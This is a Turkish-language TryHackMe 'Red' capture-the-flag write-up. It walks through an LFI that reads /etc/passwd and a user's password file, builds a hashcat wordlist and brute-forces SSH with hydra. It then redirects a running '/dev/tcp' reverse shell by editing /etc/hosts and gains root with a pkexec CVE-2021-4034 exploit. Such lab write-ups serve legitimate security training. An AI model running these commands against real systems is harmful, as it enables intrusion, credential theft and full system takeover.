 ```yaml
---
title: 'TryHackMe | Red WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [lfi]
render_with_liquid: false
media_subpath: /images/tryhackme_red/
image:
  path: logo.webp
---
```


## Özet
Web uygulamasında bulunan "Local File Inclusion" zafiyetinden yararlanarak "blue" kullanıcısının dizinideki gizli dosyayı keşfedeceğiz. Bu dosyadaki yönergeleri takip ederek bir parola listesi oluşturacak ve bu parola listesini kullanarak SSH servisine deneme yanılma saldırısı yapacağız. Sonucunda elde ettiğimiz parolayı kullanarak SSH servisine bağlanacak ve yetki yükseltmek için bir takım kontroller yapacağız. Arka planda çalışan bağlantıyı fark ettikten sonra domain'in IP adresini değiştirecek ve bağlantıyı kendi makinemize yönlendireceğiz. Sonrada zafiyetli pkexec uygulamasını fark edecek ve internette bulduğumuz bir sömürü aracını kullanarak yetki yükselteceğiz.

## Makine hakkında ek bilgiler

- Makineye bağlanan kullanıcıların bağlantıları sonlandırılıp, parolaları değiştiriliyor.
- Odağımızı bozacak mesajlar ile karşılaşabiliriz.

## Keşif aşaması

### Nmap Taraması

```console
$ nmap -sV -sC -T4 10.10.35.115
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:74:1c:e0:f7:86:4d:69:46:f6:5b:4d:be:c3:9f:76 (RSA)
|   256 fb:84:73:da:6c:fe:b9:19:5a:6c:65:4d:d1:72:3b:b0 (ECDSA)
|_  256 5e:37:75:fc:b3:64:e2:d8:d6:bc:9a:e6:7e:60:4d:3c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Atlanta - Free business bootstrap template
|_Requested resource was /index.php?page=home.html
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Bulgular

- Web uygulaması hazır web teması içeriyor.
- Tema sayfaları index.php dosyasına gönderilen "page" parametresi ile sayfaya dahil ediliyor.

### 80 numaralı port'un incelenmesi

![](1.webp){: width="1200" height="600" }

Kullanılan hazır tema düzenlenmemiş gibi duruyor. "page" parametresinin aldığı değeri /etc/passwd ve türevleri olacak şekilde değiştirdiğimde her seferinde home.html sayfasına yönlendiriyor. Sistemde bulunan dosyaları görüntüleyebilmek için parametreye "php://filter/convert.base64-encode/resource=/etc/passwd" şeklinde bir değer girdiğimde ise base64 ile kodlanmış olarak dosya içeriğini okuyabiliyorum.

## Sömürü Aşaması

```console
$ curl -s http://10.10.35.115/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd | base64 -d                                                                          
root:x:0:0:root:/root:/bin/bash
...
blue:x:1000:1000:blue:/home/blue:/bin/bash
red:x:1001:1001::/home/red:/bin/bash
```

Sistemde root haricinde "red" ve "blue" olmak üzere iki kullanıcı var. "blue" kullanıcısının dizinindeki .bash_history isimli dosyayı kontrol ettiğimizde, aynı dizindeki .reminder dosyasında bulunan bir metni kullanarak hashcat ile belli kurallar dahilinde bir parola listesi oluşturduğunu görüyoruz.

```console
$ curl -s http://10.10.35.115/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.bash_history | base64 -d
echo "Red rules"
cd
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
cat passlist.txt
rm passlist.txt
sudo apt-get remove hashcat -y
```

".reminder" isimli dosyanın içeriği aşağıdaki şekildedir.

```console
$ curl -s http://10.10.35.115/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.reminder | base64 -d
sup3r_p@s$w0rd!
```

Red kullanıcısının blue kullanıcısı için oluşturduğu parola listesini aynı komutu kullanarak oluşturalım.

```console
$ nano .reminder
$ hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
```

Daha sonra elde ettiğimiz parola listesini kullanarak SSH servisine deneme yanılma saldırısı yapalım.

```console
$ hydra -l blue -P passlist.txt ssh://10.10.35.115
[DATA] attacking ssh://10.10.35.115:22/
[22][ssh] host: 10.10.35.115   login: blue   password: sup3r_p@s$w0sup3r_p@s$w0
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-20 04:28:00
```

Elimizdeki kullanıcı bilgilerini kullanarak SSH servisine bağlandıktan sonra bulunduğumuz dizinde ilk bayrağı görüyoruz.

```console
blue@red:~$ ls
flag1
blue@red:~$ cat flag1 
THM{***?}
```

Başta belirtiğim gibi ara ara bağlantı sonlandırılıyor ve parola değiştiriliyor. Aynı parola listesini kullanarak tekrar tekrar deneme yanılma saldırısı yapmanız gerekebilir.

## Yetki yükseltme

### Red

"ps aux" komutunu kullandığımızda arka planda red kullanıcısının redrules.thm adresinin 9001 portuna bağlandığını görüyoruz.

```console
blue@red:/var/backups$ ps aux
...
red         2557  0.0  0.0   6972  2496 ?        S    08:31   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
red         2582  0.0  0.0   6972  2692 ?        S    08:32   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
root        2593  0.0  0.0      0     0 ?        I    08:32   0:00 [kworker/u30:1-events_unbound]
red         2628  0.0  0.0   6972  2696 ?        S    08:33   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
```

/etc/hosts dosyasına domain ile beraber makinemizin IP adresini girdikten bir süre sonra red kullanıcısının adına bir bağlantı alıyoruz. Dosyayı temizlediği için bu işlemi bağlantı alana kadar bir kaç kez tekrar etmeniz gerekebilir.

![](2.webp){: width="1200" height="600" }

Bağlantı geldikten sonra kendi dizininden ikinci bayrağı alıyoruz.

```console
red@red:~$ cat flag2 
THM{***}
```

### Root

/home/red/.git/ dizini içerisinde "pkexec" adında bir dosya bulunuyor. Bu dosyaya SUID izni verilmiş ve zafiyetli bir sürümü kullanılıyor.

```console
red@red:~/.git$ ls -la
drwxr-x--- 2 red  red   4096 Aug 14  2022 .
drwxr-xr-x 4 root red   4096 Aug 17  2022 ..
-rwsr-xr-x 1 root root 31032 Aug 14  2022 pkexec
red@red:~/.git$ ./pkexec --version
pkexec version 0.105
```

Adını ve sürümünü internette arattıktan sonra [bu](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py) sayfa ile karşılaştım. Verilen python kodlarını düzenleyip kayıt ettikten sonra çalıştırdım ve başarıyla root haklarına sahip oldum.

```console
red@red:~/.git$ ls
CVE-2021-4034.py  pkexec
red@red:~/.git$ python3 CVE-2021-4034.py 
[+] Creating shared library for exploit code.
[+] Calling execve()
# id
uid=0(root) gid=1001(red) groups=1001(red)
# cd /root
# ls
defense  flag3  snap
# cat flag3
THM{***}
```
